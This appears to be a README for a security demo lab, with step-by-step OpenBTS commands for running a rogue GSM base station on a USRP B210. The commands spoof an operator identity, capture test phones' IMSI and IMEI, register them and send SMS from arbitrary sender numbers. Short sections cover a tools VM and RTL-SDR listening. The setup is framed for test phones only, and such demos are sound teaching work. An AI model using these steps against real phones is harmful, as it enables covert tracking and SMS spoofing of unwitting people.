* Rogue GSM Base Station

We will use OpenBTS and a USRP B210 software defined radio to build a rogue GSM
base station. The book [[http://www.openbts.org/site/wp-content/uploads/ebook/Getting_Started_with_OpenBTS_Range_Networks.pdf][Getting Started with OpenBTS Range Networks]] is a good
reference.

We use Vagrant and VirtualBox to setup a virtual machine. This makes it easy to
setup the environment and it is independent from the operating system you
have. Please make sure you have installed Vagrant and VirtualBox before
continuing. Refer to the official documentation and tutorials.

You will also need some test phones for the experiments. The idea for the demo
is to catch the IMEI and IMSI of the testphones, and whitesit them, so that no
other user will accidentally connect to the test network.

Connect the USRP B210 to your machine, then prepare the virtual machine, the
first time this will take several minutes:

#+begin_src bash
cd openbts
vagrant up
#+end_src

You can not connect to the virtual machine:

#+begin_src bash
vagrant ssh
#+end_src

First, check that radio is detected:

#+begin_src bash
uhd_find_devices
#+end_src

And that the radio is able to transmit:

#+begin_src bash
cd ~/dev/openbts/debian/openbts/OpenBTS/
sudo ./transceiver
#+end_src

Now, start each of the following programs in a separate terminal:

#+begin_src bash
cd ~/dev/subscriberRegistry/apps
sudo ./sipauthserve
#+end_src

#+begin_src bash
cd ~/dev/smqueue/smqueue/
sudo ./smqueue
#+end_src

#+begin_src bash
cd ~/dev/asterisk/asterisk-11.7.0/main
sudo LD_LIBRARY_PATH=./ ./asterisk -vv
#+end_src

#+begin_src bash
cd ~/dev/openbts/debian/openbts/OpenBTS/
sudo ./OpenBTS
#+end_src

#+begin_src bash
cd ~/dev/openbts/debian/openbts/OpenBTS/
sudo ./OpenBTSCLI

#+end_src

Now, you can type commands in the OpenBTSCLI command line interface (=OpenBTS>=).

Adjust the receive gain, 2dB is a good value when the phone are close, to avoid
clipping. Incerease to 10dB if you the phone is more distant:

#+begin_src :eval never
OpenBTS> rxgain 2
#+end_src

Set the transmission attenuation, e.g. 20dB (adjust to your needs):

#+begin_src :eval never
OpenBTS> power 20
#+end_src

Setup a spoofed network identity. You can find MCC and MNC on
[[https://cellidfinder.com/mcc-mnc/][CellIDFinder.com]]. We chose an Italian operator that is not available in
France. With a French SIM, you have to select it manually.  With an Italian
WIND SIM, it will be chosen automatically. If you want to use an operator that
exist in the area, then you have to overpower its signal, we chose not to.

#+begin_src :eval never
config GSM.Identity.ShortName WIND
config GSM.Identity.MCC 222
config GSM.Identity.MNC 88 
#+end_src

Now, take a testphone and do a manual scan for the networks. You should see a
new carrier appear. Try to connect to the network, you will get a failure, but
this is enough to catch the IMSI/IMEI information.

#+begin_src :eval never
OpenBTS> tmsis
#+end_src

#+begin_example
IMSI            TMSI IMEI            AUTH CREATED ACCESSED TMSI_ASSIGNED
2*************7 -    3*************0 0    3s      3s       0             
#+end_example

It is now possible to add a new subscriber for this phone. You can assing any
phone number, e.g., 1111. In a new terminal:

#+begin_src bash
cd ~/dev/NodeManager/
./nmcli.py sipauthserve subscribers create "TestPhone1" IMSI2*************7 1111
#+end_src

It is also possible to allow open registration for a certain IMSI:

#+begin_src :eval never
OpenBTS> config Control.LUR.OpenRegistration 2*************7
#+end_src

Now your phone should connect. You can send an SMS to the phone, from any
number you want.

#+begin_src :eval never
OpenBTS> sendsms 2*************7 0033666*****1 Hey you
#+end_src

TODO: fix, as of know asterisk and calls are not working.

If you add two phones, they can send each other messages. Once you are done,
close all the programs. Then, halt the virtual machine.

#+begin_src bash
vagrant halt
#+end_src

* VM with tools

We provide a virtual machine with all the tools necessary for the demos. Only
the rogue GSM base station has a separate VM, because it is easy to compile
with that version. If you prefer, you can install the tools one by one on your
machine, you can have a look at =bootstrap.sh=.

#+begin_src bash
cd tools
vagrant up
#+end_src

The first time wait for the provisioning to complete (in the same shell where
you typed vagrant up). A new window appears, go there and login:

#+begin_example
Login: vagrant
Password: vagrant
#+end_example

Start the graphic interface:

#+begin_src bash
startx
#+end_src

When you are done, close the machine:

#+begin_src bash
vagrant halt
#+end_src

* GQRX and RTL-SDR

Make sure you are using the VM with tools or you have installed =gqrx-sdr= on
your machine.

Connect the RTL-SDR dongle and check that is was recognized:

#+begin_src bash
lsusb 
#+end_src

#+begin_example
Bus 001 Device 002: ID 8087:8000 Intel Corp. 
Bus 002 Device 068: ID 0bda:2838 Realtek Semiconductor Corp. RTL2838 DVB-T
#+end_example

Start GQRX, choose =Realtek RTL2838UHIDIR=. Play with the radio, try to listen to
AM and FM stations in your area.

#+begin_src bash
gqrx
#+end_src
